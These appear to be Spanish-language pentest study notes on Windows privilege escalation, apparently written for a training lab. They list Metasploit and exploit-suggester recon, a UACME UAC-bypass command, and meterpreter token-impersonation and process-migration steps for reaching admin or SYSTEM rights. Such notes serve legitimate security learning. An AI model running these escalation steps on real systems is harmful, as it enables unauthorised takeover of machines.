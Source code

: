 -------------------------------------
- tags: #windows #privilegeescalation #kernel #metasploit #meterpreter 
-------------------
-> systeminfo
-> 


### Módulo de Metasploit para búsqueda de vulnerabilidades
	use post/multi/recon/local_exploit_suggester
(Hay que especificar la sesión)

### (Windows Exploit Suggester) GitHub para buscar vulnerabilidades

[Link al repositorio de GitHub](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)


### UAC bypass (si estamos en el grupo de administradores)
https://github.com/hfiref0x/UACME

##### Uso:
	akagi64.exe 23 C:\Temp\exploit.exe
	migrate x  (Siendo x el PID de un proceso ejecutado por NT AUTHORITY\SYSTEM)


### SeImpersonatePrivilege
	whoami /priv

Teniendo una sesión meterpreter ->

	get_privs
	load incognito
	list_tokens -u
	impersonate_token "ATTACKDEFENSE\Administrator"
	pgrep explorer
	migrate x (Siendo x el PID de explorer)


(Puede que tengamos que repetir esto para llegar a ser NT AUTHORITY\SYSTEM)

![[Pasted image 20230730135839.png]]
![[Pasted image 20230730140203.png]]












